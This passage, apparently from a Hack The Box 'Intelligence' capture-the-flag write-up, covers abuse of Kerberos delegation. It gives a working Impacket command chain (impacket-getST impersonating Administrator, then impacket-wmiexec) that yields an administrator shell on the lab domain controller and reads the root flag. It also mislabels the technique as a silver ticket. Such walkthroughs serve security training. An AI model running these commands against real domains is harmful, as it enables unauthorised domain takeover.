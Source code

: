 SVC_INT$ is **allowed to delegate** in the Domain Controller. What this means is that we can impersonate any user in the DC, including the administrator account.

<img src="/assets/img/intelligence/Untitled 7.png" alt="Untitled 7.png" style="width:800px;">

That is exactly what we will do by requesting a **silver ticket** with Impacket.

I recently discovered that my VM is broken when it comes to Kerberos authentication. I will eventually have to fix it, but for now running the next command in the PwnBox worked just fine. 

```
echo -e "10.129.95.154\tdc.intelligence.htb intelligence.htb" | sudo tee -a /etc/hosts; sudo apt install rdate; sudo rdate -n 10.129.95.154; impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator -hashes :<REDACTED> -dc-ip 10.129.95.154 intelligence.htb/svc_int; KRB5CCNAME=Administrator.ccache impacket-wmiexec dc.intelligence.htb -k -no-pass

C:\>whoami
intelligence\administrator
```

All that is left is to read the root flag. GGs!

```
C:\>type c:\users\administrator\desktop\root.txt
ce33da8c57eb51fa****************
```